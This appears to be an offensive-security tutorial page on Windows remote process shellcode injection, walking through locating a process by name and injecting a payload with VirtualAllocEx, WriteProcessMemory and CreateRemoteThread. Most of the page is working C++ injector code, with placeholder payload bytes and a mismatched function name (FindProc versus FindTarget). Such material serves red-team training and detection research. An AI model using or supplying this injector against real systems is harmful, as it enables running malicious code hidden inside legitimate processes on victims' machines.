 # Shellcode injection

## Injecting Shellcode

The idea is :

* Create a global variable containing the shellcode
* Create a function which will create a snapshot of all the processes running in memory and then, search retrieve victim process information
* Create an inject function
* Select the "victim" process and retrieve his PID

### Shellcode Global variable

As usual, we have to declare the payload :

`unsigned char payload[] = {0xf, 0xdf...}`

We also need the payload's length:

`unsigned int payload_len = xxx ;`

### Locate the process

This can be done using the following functions :

1. **Create a snapshot of running processes:**

`hProcessessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);`

1. **Search for the victim process by comparing the `*procname` to other process retrieved on the snapshot**

Two functions are used to do this task

* `Process32First`

And the search loop

* `Process32Next`

  Note: We can also use the `lstrcmpiA` function to set our search as 'case insensitive'.

#### Code

```cpp
int FindTarget(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;

        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

        pe32.dwSize = sizeof(PROCESSENTRY32); 

        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }

        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }

        CloseHandle(hProcSnap);

        return pid;
}
```

### Inject function

The inject function

1. **Allocate memory in the target process using `VirtualAllocEx`**

   `VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);`

2. **Copy the shellcode in the remote buffer memory using `WriteProcessMemory`**

   `WriteProcessMemory(hProcess, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);`

3. **Execute the shellcode remotly using `CreateRemoteThread`**

CreateRemoteThread\(hProcess, NULL, 0, pRemoteCode, NULL, 0, NULL\);

#### Code

```cpp
int Inject(HANDLE hProcess, unsigned char * payload, unsigned int payload_len) {

        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;


        pRemoteCode = VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProcess, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);

        hThread = CreateRemoteThread(hProcess, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}
```

### Main function

Putting everything together :

We also need to create a hProcess function, which need a specific PID :

```cpp
hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);
```

#### Code

```cpp
int main(void) {

    int pid = 0;
    HANDLE hProcess = NULL;

    pid = FindProc("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProcess != NULL) {
            Inject(hProcess, payload, payload_len);
            CloseHandle(hProcess);
        }
    }
    return 0;
}
```

#### POC

![](../../../../../.gitbook/assets/245038ac1ed9459aba831db8370421c2.png)

